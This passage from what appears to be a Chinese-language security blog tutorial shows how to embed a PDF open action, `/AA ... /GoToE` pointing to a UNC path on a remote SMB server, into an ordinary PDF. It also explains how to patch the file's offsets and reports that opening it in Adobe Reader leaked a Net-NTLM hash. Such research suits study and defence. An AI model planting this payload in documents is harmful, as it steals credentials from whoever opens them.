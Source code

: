 ```
					>>
				  >>
				>>
>>
endobj
```

此处为关键代码，实现远程访问

`/Contents 4 0 R`表示页面内容对象的对象号为4

`/Parent 2 0 R`表示父对象是2

在`/Contents 4 0 R`和`/Parent 2 0 R`直接为实现远程访问的代码

对于PDF文件格式，不需要换行符，所以这段代码去掉换行符和空格，填入ServerIP后为`/AA <</O <</F (\\\\192.168.62.139\\test)/D [ 0 /Fit]/S /GoToE>>>>`

## 0x05 修改正常PDF文件
---

接下来，尝试修改正常的文件，添加代码，实现远程访问功能

使用工具生成的PDF文件一般都很大，分析格式不是很方便，这里提供一个python生成PDF的参考代码，地址如下：

http://code.activestate.com/recipes/189858/

输入txt文件，输出pdf文件

### 实际测试

1.txt的内容为：

```
1234567
```

cmd:

```
recipe-189858-1.py 1.txt
```

生成的pdf文件`1.txt.pdf`，文件大小1213 bytes

查看1.txt.pdf的文件格式，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-5-3/3-1.png)

在`/Parent 3 0 R`和`/Resources 5 0 R`直接添加代码`/AA <</O <</F (\\\\192.168.62.139\\test)/D [ 0 /Fit]/S /GoToE>>>>`

**注:**

需要十六进制编辑，使用文本编辑会导致PDF文件出错

对PDF文件添加上述代码后，交叉引用表中对象的偏移位置会出现偏差，需要重新计算，修正偏移位置

使用Adobe Reader打开修改后的文件`1.txt.pdf`，SMB服务器成功抓到Net NTLM Hash，修改成功

